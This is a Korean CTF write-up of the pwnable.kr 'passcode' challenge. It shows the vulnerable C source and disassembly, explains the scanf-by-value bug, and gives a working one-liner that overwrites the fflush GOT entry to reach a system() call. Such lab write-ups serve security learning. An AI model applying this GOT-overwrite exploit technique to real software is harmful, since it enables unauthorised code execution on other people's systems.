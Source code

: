 # passcode 
~~~c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
  printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
~~~
* passcode.c file이다. 여기서 scanf에서 취약점이 발생한다. passcode1이라는 이름이 가리키는 주소에 값이 들어가는 것이 아니라 passcode1의 값 자체에 
저장되게 된다. 따라서 passcode1을 원하는 주소로 덮어쓰면 scanf를 통해 그 주소에 값을 적을 수 있다. 먼저 passcode의 주소를 알아야 한다.
~~~
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
~~~
passcode1의 주소는 ebp-0x10이다.
~~~
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
~~~
welcome의 주소는 ebp-0x70이므로 96(0x60)값을 넣어서 passcode1을 덮어쓸 수 있다.
여기서 passcode를 fflush got 값으로 변조시키면 fflush got에 값을 넣을 수 있게 되고  이제 system 함수를 실행하는 줄의 주소를 넣어주면 된다.
~~~
 08048430 <fflush@plt>:
 8048430:	ff 25 04 a0 04 08    	jmp    *0x804a004
 8048436:	68 08 00 00 00       	push   $0x8
 804843b:	e9 d0 ff ff ff       	jmp    8048410 <_init+0x30>
~~~
fflush got:0x804a004
~~~
  0x080485e3 <+127>:	movl   $0x80487af,(%esp)
  0x080485ea <+134>:	call   0x8048460 <system@plt>
~~~
system 함수가 시작하는 주소: 0x080485e3
~~~
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
134514147
~~~
system 함수값을 아무 생각없이 그대로 넣어주다 안 되서 롸업 봤더니 정수값으로 넣어줘야 하는 것을 알 수 있었다.


